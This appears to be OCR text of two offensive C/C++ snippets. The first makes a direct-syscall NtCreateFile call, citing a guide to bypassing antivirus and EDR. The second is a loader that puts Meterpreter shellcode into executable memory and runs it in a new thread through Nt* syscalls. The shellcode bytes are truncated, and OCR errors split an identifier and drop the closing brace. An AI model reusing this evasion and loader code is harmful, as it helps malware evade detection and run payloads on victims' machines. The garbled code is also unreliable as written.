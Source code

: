 ```c
#include "pch.h"
#include <Windows.h>
#include "winternl.h"
#pragma comment(lib, "ntdll")
//https://www.ired.team/offensive-security/defense-evasion/using-syscalls-directly-from-visual-studio-to-bypass-avs-edrs
EXTERN_C NTSTATUS SysNtCreateFile(PHANDLE FileHandle, ACCESS_MASK DesiredAccess, POBJECT_ATTRIBUTES ObjectAttributes, PIO_STATUS_BLOCK IoStatusBlock, PLARGE_INTEGER AllocationSize, ULONG FileAttributes, ULONG ShareAccess, ULONG CreateDisposition, ULONG CreateOptions, PVOID EaBuffer, ULONG EaLength);
int main()
{
	FARPROC addr = GetProcAddress(LoadLibraryA("ntdll"), "NtCreateFile");
	OBJECT_ATTRIBUTES oa;
	HANDLE fileHandle = NULL;
	NTSTATUS status = NULL;
	UNICODE_STRING fileName;
	I
	O_STATUS_BLOCK osb;
	RtlInitUnicodeString(&fileName, (PCWSTR) L "\\??\\c:\\temp\\test.txt");
	ZeroMemory(&osb, sizeof(IO_STATUS_BLOCK));
	InitializeObjectAttributes(&oa, &fileName, OBJ_CASE_INSENSITIVE, NULL, NULL);
	SysNtCreateFile(&fileHandle, FILE_GENERIC_WRITE, &oa, &osb, 0, FILE_ATTRIBUTE_NORMAL, FILE_SHARE_WRITE, FILE_OVERWRITE_IF, FILE_SYNCHRONOUS_IO_NONALERT, NULL, 0);
	return 0;
}
```

```cpp
#include <iostream>
#include <Windows.h>
#include "syscalls.h"

int main() {
    // Insert Meterpreter shellcode
    unsigned char code[] = "\xa6\x12\xd9...";


    LPVOID allocation_start;
    SIZE_T allocation_size = sizeof(code);
    HANDLE hThread;
    NTSTATUS status;

    allocation_start = nullptr;


    // Allocate Virtual Memory 
    NtAllocateVirtualMemory(GetCurrentProcess(), &allocation_start, 0, (PULONG64)&allocation_size, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);


    // Copy shellcode into allocated memory
    NtWriteVirtualMemory(GetCurrentProcess(), allocation_start, code, sizeof(code), 0);


    // Execute shellcode in memory 
    NtCreateThreadEx(&hThread, GENERIC_EXECUTE, NULL, GetCurrentProcess(), allocation_start, allocation_start, FALSE, NULL, NULL, NULL, NULL);


    // Wait for the end of the thread and close the handle
    NtWaitForSingleObject(hThread, FALSE, NULL);
    NtClose(hThread);

```